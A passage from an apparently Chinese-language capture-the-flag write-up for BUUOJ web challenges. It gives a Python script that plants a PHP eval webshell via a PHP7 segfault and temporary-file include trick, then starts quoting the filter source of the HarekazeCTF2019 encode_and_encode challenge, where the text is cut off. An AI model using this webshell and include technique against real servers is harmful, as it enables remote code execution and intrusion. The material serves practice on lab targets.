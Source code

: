 ![在这里插入图片描述](https://img-blog.csdnimg.cn/b501086b38704b87b997b3b37522581b.png)
不能命令执行，根据前辈博客，尝试包含临时文件，利用PHP7 Segment Fault

```python

import requests
from io import BytesIO #BytesIO实现了在内存中读写bytes
payload = "<?php eval($_POST[cmd]);?>"
data={'file': BytesIO(payload.encode())}
url="http://b75582fa-5dab-4f76-8734-1c591cb88d31.node4.buuoj.cn:81/flflflflag.php?file=php://filter/string.strip_tags/resource=/etc/passwd"
r=requests.post(url=url,files=data,allow_redirects=False)

#来自https://blog.csdn.net/weixin_45646006/article/details/120817553

```

![在这里插入图片描述](https://img-blog.csdnimg.cn/3620c6d53489410b9fae29566d00de48.png)
蚁剑能连接但是没有什么权限，burp抓包传一下参数，phpinfo()
![在这里插入图片描述](https://img-blog.csdnimg.cn/f3ddb93c58d643a3902fef9bd4b22fb4.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/3fe8c6cb909d483f9e5303f573c8a869.png)


# [HarekazeCTF2019]encode_and_encode

>[学习博客，参考此处](https://blog.csdn.net/RABCDXB/article/details/122724832)
打开页面，第三个链接有源码

```php

<?php
error_reporting(0);

// 显示源码
if (isset($_GET['source'])) {
  show_source(__FILE__);
  exit();
}

// 过滤函数，不允许伪协议关键字
function is_valid($str) {
  $banword = [
    // no path traversal
    '\.\.',
    // no stream wrapper
    '(php|file|glob|data|tp|zip|zlib|phar):',
    // no data exfiltration
    'flag'
  ];
  $regexp = '/' . implode('|', $banword) . '/i';
  if (preg_match($regexp, $str)) {
    return false;
  }
  return true;
}

// 通过POST传数据
$body = file_get_contents('php://input');
// 数据需要为json格式字符串
$json = json_decode($body, true);

// 参数键为page
if (is_valid($body) && isset($json) && isset($json['page'])) {
```